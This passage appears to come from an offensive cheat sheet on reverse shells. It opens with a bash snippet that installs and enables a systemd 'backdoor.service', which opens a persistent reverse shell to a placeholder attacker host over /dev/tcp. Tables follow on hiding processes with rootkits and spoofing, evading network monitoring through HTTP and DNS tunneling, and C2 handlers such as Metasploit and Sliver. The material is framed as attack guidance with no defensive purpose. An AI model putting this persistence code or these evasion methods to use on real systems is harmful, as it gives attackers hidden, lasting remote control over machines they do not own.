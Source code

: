### Service Creation

```bash
# Create systemd service
cat > /etc/systemd/system/backdoor.service << EOF
[Unit]
Description=Backdoor Service

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable backdoor.service
```

## Detection Evasion

### Process Hiding

| Technique | Implementation | Effectiveness |
|-----------|---------------|---------------|
| **Process naming** | Rename to common process | Low |
| **Parent process spoofing** | Hide under legitimate process | Medium |
| **Rootkit usage** | Kernel-level hiding | High |

### Network Evasion

| Method | Description | Implementation |
|--------|-------------|---------------|
| **HTTP tunneling** | Encapsulate shell in HTTP | Tools like tunna, reGeorg |
| **DNS tunneling** | Use DNS queries for communication | Tools like dnscat2, iodine |
| **Encrypted shells** | SSL/TLS encrypted communication | Socat, stunnel |

## Shell Management Tools

### Multi-handler Tools

| Tool | Description | Platform |
|------|-------------|----------|
| **Metasploit** | `multi/handler` module | Cross-platform |
| **Empire** | PowerShell post-exploitation | Windows |
| **Covenant** | .NET command and control | Windows |
| **Sliver** | Modern C2 framework | Cross-platform |
